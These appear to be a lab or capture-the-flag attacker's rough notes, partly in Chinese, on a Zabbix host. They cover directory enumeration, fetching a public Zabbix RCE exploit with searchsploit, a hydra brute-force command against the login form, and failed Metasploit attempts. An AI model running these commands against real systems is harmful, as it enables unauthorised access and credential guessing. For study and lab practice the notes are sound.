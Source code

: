 ### web

```
wget http://10.10.10.108
---
gobuster -u http://10.10.10.108 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/zabbix (Status: 301)
/server-status (Status: 403)

---
burp spider
http://10.10.10.108/zabbix/history.php
Zabbix 3.0.21
---
Zabbix 2.2 < 3.0.3 - API JSON-RPC Remote Code Execution 
searchsploit -m exploits/php/webapps/39937.py
1. 修改exp地址为http://10.10.10.108/zabbix
2. 运行exp：  python 39937.py 
3. 运行出错，检查exp
[zabbix_cmd]>>:  
Result of last command:
Traceback (most recent call last):
  File "39937.py", line 55, in <module>
    "auth" : auth['result'],
KeyError: 'result'
用户名密码Admin/zabbix可能是无效口令，尝试登陆后的确失败
4. http://10.10.10.108/zabbix/api_jsonrpc.php该地址存在
5. burp截包，尝试弱密码猜测
name=Admin&password=zabbix&autologin=1&enter=Sign+in

hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/3000-pass.txt -f 10.10.10.108 http-post-form "/zabbix/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:incorrect"
```
---
msf 尝试exploit/unix/misc/zabbix_agent_exec
ip/端口10050,失败

---
Zabbix Agent - 'net.tcp.listen' Command Injection (Metasploit) 
Zabbix Server 2.4.X

---
[CVE-2016-10134](http://cvedetails.com/cve/cve-2016-10134)
 before 3.0.4 allows remote attackers to execute arbitrary SQL commands
auxiliary/gather/zabbix_toggleids_sqli
失败

---

发现一个登陆表单，searchsploit zabbix，常规操作

### 10050 port
http://10.10.10.108:10050
searchsploit zabbix
Zabbix Agent - 'net.tcp.listen' Command Injection (Metasploit) 
